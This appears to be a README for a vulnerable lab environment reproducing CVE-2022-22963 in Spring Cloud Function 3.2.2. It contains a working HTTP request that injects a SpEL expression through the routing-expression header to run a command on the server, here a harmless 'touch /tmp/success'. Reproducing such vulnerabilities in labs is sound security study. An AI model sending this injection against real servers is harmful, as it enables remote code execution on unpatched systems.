


# Spring Cloud Function SpEL Code Injection (CVE-2022-22963)

[中文版本(Chinese version)](README.zh-cn.md)

Spring Cloud Function provides a common model for deploying function-based software on a variety of platforms, including FaaS (function as a service) platforms like Amazon AWS Lambda.

References:

- <https://tanzu.vmware.com/security/cve-2022-22963>
- <https://mp.weixin.qq.com/s/onYJWIESgLaWS64lCgsKdw>
- <https://github.com/spring-cloud/spring-cloud-function/commit/0e89ee27b2e76138c16bcba6f4bca906c4f3744f>

## Vulnerability Environment

Execute the following command to start a server that uses Spring Cloud Function 3.2.2:

```
docker-compose up -d
```

After server is started, execute `curl http://your-ip:8080/uppercase -H "Content-Type: text/plain" --data-binary test` you can convert the user input to uppercase.

## Vulnerability Reproduce

There is a SpEL expression injection in the request header `spring.cloud.function.routing-expression`.

Send the following request to execute `touch /tmp/success` on the target server:

```
POST /functionRouter HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("touch /tmp/success")
Content-Type: text/plain
Content-Length: 4

test
```



As you can see, `touch /tmp/success` has been executed successfully.


